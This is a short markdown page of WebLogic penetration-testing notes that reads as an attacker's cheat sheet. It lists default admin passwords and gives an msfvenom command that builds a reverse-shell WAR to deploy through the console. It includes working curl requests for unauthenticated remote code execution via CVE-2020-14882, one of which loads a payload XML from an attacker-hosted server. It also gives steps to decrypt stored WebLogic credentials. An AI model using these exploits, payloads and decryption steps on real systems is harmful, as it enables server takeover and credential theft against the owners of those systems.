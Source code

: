 ```yaml
---
title: WebLogic pentest notes
---
```


Default passwords
=================

| Version | Account | Default password |
|---------|---------|------------------|
| <= 10   | weblogic| weblogic         |
| >= 11   | weblogic| weblogic1 *or* Welcome1 *or* welcome1 |


RCE from admin account
======================
Generate a WAR file using msf.

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=xx.xx.xx.xx LPORT=1234 -f war > peace.war
```

Then deploy on the web interface. First enter the deployment menu, second lock the configuration for editing and then click install. This gives the option to upload a new RAR and install it on the server, triggering the payload:
![lock and edit](./WebLogic/wl.PNG)


Unauthenticated RCE CVE-2020-14882 (fall 2020)
==============================================
[Official Advisory](https://www.oracle.com/security-alerts/alert-cve-2020-14750.html)

Affected versions: 10.3.6.0.0, 12.1.3.0.0, 12.2.1.3.0, 12.2.1.4.0, 14.1.1.0.0

There are loads of other RCEs spanning 2017-2020 but this one is so easy and powerful it kinda renders all the other exploits obsolete.

If Tangosol is present on the target (versions >=12 usually) then direct remote code execution is achieved:
```bash
curl -X POST 'http://target:7001/console/css/%252e%252e%252fconsole.portal'
    --data '_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec(%27touch%20/tmp/rce%27);")'
```

Otherwise an additional malicious webserver hosting a XML paylod is needed, but RCE is achieved nonetheless.

Hosted XML file ```wl.xml```:
```xml
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>touch</value>
            <value><![CDATA[/tmp/rce]]></value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```

```bash
curl -X POST 'http://target:7001/console/css/%252e%252e%252fconsole.portal'
    --data '_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext(%22http://xx.xx.xx.xx/wl.xml%22)'
```

Of course, the WebLogic server needs to have network visibility on the hosted payload.


Decrypting passwords
====================

Offline
-------
On the compromised host, recover these two files:

* SerializedSystemIni.dat: this is the decryption key in binary format so you usually can't grab it using LFI...
* boot.properties: contains encrypted user and password values

Decrypt using [this python script](https://gist.github.com/gquere/b331d9a8f0c0ffc8ac1fb44123aa8335).


Online
------
Grab the domain path from the ```wl-domains``` folder
```
wlst.sh
wls:/offline> domain = "..."
wls:/offline> service = weblogic.security.internal.SerializedSystemIni.getEncryptionService(domain)
wls:/offline> enc = weblogic.security.internal.encryption.ClearOrEncryptedService(service)
wls:/offline> enc.decrypt('{AES}...')
```
